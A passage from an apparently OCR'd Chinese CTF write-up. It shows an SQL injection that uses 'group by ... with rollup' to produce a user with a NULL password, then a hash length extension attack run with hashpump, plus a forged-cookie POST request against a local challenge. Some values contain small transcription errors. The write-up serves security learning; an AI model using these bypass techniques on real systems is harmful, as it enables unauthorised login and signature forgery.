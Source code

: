 这个题目比较有意思，充分的利用sql的特性：
```

mysql> select * from  user ;
+----+-----------+----------------------------------+-------+
| id | uname     | password                         | level |
+----+-----------+----------------------------------+-------+
|  1 | admin     | 21232f297a57a5a743894aoe4a801fc3 |     1 |
|  2 | test      | 202cb962ac59075b964b07152d234b70 |     0 |
|  3 | wonderkun | e10adc3949ba59abbe56e057f20f883e |     0 |
|  4 | 想放假    | e10adc3949ba59abbe56e057f20f883e |     0  |
+----+-----------+----------------------------------+-------+

mysql> select * from  user where 1=1  group by  password   ;
+----+-----------+----------------------------------+-------+
| id | uname     | password                         | level |
+----+-----------+----------------------------------+-------+
|  2 | test      | 202cb962ac59075b964b07152d234b70 |     0 |
|  1 | admin     | 21232f297a57a5a743894aoe4a801fc3 |     1 |
|  3 | wonderkun | e10adc3949ba59abbe56e057f20f883e |     0 |
+----+-----------+----------------------------------+-------+

mysql> select * from  user where 1=1  group by  password  with rollup limit 1 offset 3 ;
+----+-----------+----------+-------+
| id | uname     | password | level |
+----+-----------+----------+-------+
|  3 | wonderkun | NULL     |     0 |
+----+-----------+----------+-------+
//上面就是构造空密码用户的方法。
```
```
uname='%26%261=1 group by pw with roleup limit 1 offset x; 
```

### web15 

很明显的hash长度扩展攻击：

我们知道了 $secret.'adminadmin'的签名，其中$secret是15位的。
使用hashpump来实现hash长度扩展攻击。
```
➜  ~ hashpump
Input Signature: 8867c97050ca95d6b74a70232d6394a6
Input Data: adminadmin
Input Key Length: 15
Input Data to Add: test
9f19f6bbbd780ff35f68cff1d96e4834
adminadmin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc8\x00\x00\x00\x00\x00\x00\x00test
```
post:
```
POST /shiyanba/web15.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Cookie: sample-hash=8867c97050ca95d6b74a70232d6394a6; source=0; getmein=9f19f6bbbd780ff35f68cff1d96e4834
Connection: close
Upgrade-Insecure-Requests: 1

```